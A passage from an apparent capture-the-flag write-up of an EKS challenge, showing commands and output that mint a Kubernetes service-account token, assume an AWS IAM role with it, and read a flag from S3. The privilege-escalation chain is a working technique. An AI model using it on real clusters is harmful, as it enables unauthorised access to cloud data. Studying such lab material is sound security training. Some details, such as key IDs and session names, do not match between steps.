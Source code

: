 As we can see, we have 3 Service Accounts available to us. 2 of them have roles we can assume. And only one, it seems, is the role with actual permissions to access the flag.

For the next trick we would want to have a web identity token (JWT), which will allow us to assume the next level role. Let's try to obtain one.

```bash
root@wiz-eks-challenge:~# kubectl create token s3access-sa --audience=sts.amazonaws.com
error: failed to create token: serviceaccounts "s3access-sa" is forbidden: User "system:node:challenge:ip-192-168-63-122.us-west-1.compute.internal" cannot create resource "serviceaccounts/token" in API group "" in the namespace "challenge5"
```

Bummer. But what about another Service Account?

```bash
root@wiz-eks-challenge:~# kubectl create token debug-sa --audience=sts.amazonaws.com
eyJhbGciOiJSUzI1NiIsImtpZCI6ImRmZjE4OGZjZDg3MTM1OTU3OWZhOWMxMzE5ZjcxNTg0Nzg1NmE3NmMifQ...
```

Bingo!

```bash
root@wiz-eks-challenge:~# aws sts assume-role-with-web-identity \
  --role-arn arn:aws:iam::688655246681:role/challengeEksS3Role \
  --role-session-name HeresJohnny
  --web-identity-token eyJhbGciOiJSUzI1NiIsImtpZCI6ImRmZjE4OGZjZDg3MTM1OTU3OWZhOWMxMzE5ZjcxNTg0Nzg1NmE3NmMifQ.... \
{
    "Credentials": {
        "AccessKeyId": "ASIA2AVYNEVMYGOPTRII",
        "SecretAccessKey": "87W2QkL9e1Mkdj4T0Zf/...",
        "SessionToken": "IQoJb3JpZ2luX2VjEGQaCXVzLXdlc3QtMSJHMEUCIQCfVepHS05hYgXgg8Eu9YwNC44WuH2+ffuu8NvbxUKQ+wIgdNRKeKMN0N5XgEDPZXzCmRe0nEpFtXtJGuU2XATNoYMqxQQI7f//////////...",
        "Expiration": "2025-09-30T12:38:48+00:00"
    },
    "SubjectFromWebIdentityToken": "system:serviceaccount:challenge5:debug-sa",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA2AVYNEVMZEZ2AFVYI:HeresJohnny",
        "Arn": "arn:aws:sts::688655246681:assumed-role/challengeEksS3Role/HeresJohnny"
    },
    "Provider": "arn:aws:iam::688655246681:oidc-provider/oidc.eks.us-west-1.amazonaws.com/id/C062C207C8F50DE4EC24A372FF60E589",
    "Audience": "sts.amazonaws.com"
}
```

Almost there! Now, the final stretch:

```bash
root@wiz-eks-challenge:~# export AWS_ACCESS_KEY_ID=ASIA2AVYNEVMQEKAGCGB
root@wiz-eks-challenge:~# export AWS_SECRET_ACCESS_KEY=87W2QkL9e1Mkdj4T0Zf/...
root@wiz-eks-challenge:~# export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEGQaCXVzLXdlc3QtMSJHMEUCIQCfVepHS05hYgXgg8Eu9YwNC44WuH2+ffuu8NvbxUKQ+wIgdNRKeKMN0N5XgEDPZXzCmRe0nEpFtXtJGuU2XATNoYMqxQQI7f//////////...
root@wiz-eks-challenge:~# aws sts get-caller-identity
{
    "UserId": "AROA2AVYNEVMZEZ2AFVYI:imcoming",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/challengeEksS3Role/imcoming"
}
root@wiz-eks-challenge:~# aws s3 cp s3://challenge-flag-bucket-3ff1ae2/flag - | cat
wiz_eks_challenge{w0w_y0u_really_are_4n_eks_and_aws_exp1oitation_legend}
```
